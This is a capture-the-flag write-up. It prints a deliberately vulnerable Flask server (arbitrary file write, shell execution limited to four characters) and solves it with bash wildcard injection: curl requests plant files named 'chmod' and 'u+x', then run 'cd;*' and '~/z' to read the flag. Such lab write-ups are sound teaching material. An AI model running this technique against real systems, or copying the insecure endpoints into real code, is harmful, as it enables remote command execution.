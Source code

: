 ## WX Underground

### Task intro
Description of the task:

```
Decades ago, the great city of Cockbit was wiped from the map of our world. Ever since, nestled amid the forsaken stones of the once-mighty city, a hidden corridor stirs to life for a day in a year. What lies at its end defies the understanding of conventional science. Those few who have returned speak of IT with ceaseless awe.   Only true hero can surpass all the obstacles and emerge victory over this dangerous creature. If only we knew who can instill hope to the hearts of oppressed...
```

We are given python server with possibilty of arbitary file wrtie and arbitary command, but limited to 4 characters.
```py
from flask import Flask, request, send_file
import subprocess

app = Flask(__name__)

# Inspired by and derived from https://ctftime.org/task/30126
@app.route('/write', methods=['POST'])
def write():
    filename = request.args.get('filename', '')
    content = request.get_data()
    try:
        with open(filename, 'wb') as f:
            f.write(content)
            f.flush()
        return 'OK'
    except Exception as e:
        return str(e), 400

@app.route('/exec')
def execute():
    cmd = request.args.get('cmd', '')
    if len(cmd) > 4:
        return 'Command too long', 400
    if "|" in cmd:
        return 'No pipi racing this time :(', 400
    try:
        output = subprocess.check_output(cmd, shell=True)
        return output
    except Exception as e:
        return str(e), 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=7331)

```

We need to execute compiled binary with 5 arguments to read the flag:
```cpp
#include <stdio.h>
#include <string.h>
#include <unistd.h>

// Inspired by and derived from https://ctftime.org/task/30126
int main(int argc, char *argv[]) {
    char full_cmd[256] = {0}; 
    for (int i = 1; i < argc; i++) {
        strncat(full_cmd, argv[i], sizeof(full_cmd) - strlen(full_cmd) - 1);
        if (i < argc - 1) strncat(full_cmd, " ", sizeof(full_cmd) - strlen(full_cmd) - 1);
    }

    if (strstr(full_cmd, "tung tung tung tung sahur")) {
        FILE *flag = fopen("/flag.txt", "r");
        if (flag) {
            char buffer[1024];
            while (fgets(buffer, sizeof(buffer), flag)) {
                printf("%s", buffer);
            }
            fclose(flag);
            return 0;
        }
    }

    printf("Konon katanya kalau ada orang yang dipanggil Sahur tiga kali dan tidak nyaut maka makhluk ini datang di rumah kalian: %s\n", full_cmd);
    return 1;
}

```

## Wildcard Injection

I like CTF challenges, which use real-world patterns. In this task we have the ability to use special characters and commands in Bash because of the option `shell=True`. We can't use pipes, but wildcard `*` and the new command via `;` are still available for us. We can remember bash script misconfigurations, which lead to privilege escalation. And the main idea is [Wildcard Injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). We can create arbitrary files and call them as arguments via `*`. But we have only 4 characters; from where can we use this attack? We are not root, so my first assumption was `/tmp`. But this will not work, because we can't traverse to there. The second assumption was to use a double wildcard `/*/*` and this is better but not good enough. We need another writable path. Let's just search for it:
```bash
$ find / -exec test -w {} \; -exec echo {} \; 2>/dev/null
/proc/sys/kernel/ns_last_pid
/proc/keys
<proc paths>
/home/patapim
/sys/firmware
/dev/pts/0
/dev/pts/ptmx
/dev/mqueue
/dev/shm
/dev/null
/dev/random
/dev/full
/dev/tty
/dev/zero
/dev/urandom
/dev/ptmx
/dev/stdin
/dev/stdout
/dev/stderr
/dev/core
/var/tmp
/tmp
```

And we can see the home folder `/home/patapim`, which can be very useful. This is because the `cd` command without arguments will move to it. We can traverse and do wildcard injection by `cd;*`. Before executing, we need to create a full command. Only limitation: that output of wildcard is sorted. We have to be creative and call chmod on our sh script. We can construct the next chmod command `chmod u+x z`, which is sorted. After we add executable permission to the payload, we can just call it by the special variable `~`.
```bash
$ curl "http://127.0.0.1:7331/write?filename=/home/patapim/z" -d "/tung tung tung tung tung sahur"
OK%
$ curl "http://127.0.0.1:7331/write?filename=/home/patapim/u%2bx" -d "u+x"
OK%
$ curl "http://127.0.0.1:7331/write?filename=/home/patapim/chmod" -d "chmod"
OK%
$ curl "http://127.0.0.1:7331/exec?cmd=cd;*"
$ curl "http://127.0.0.1:7331/exec?cmd=~/z"
SAS{example}
```


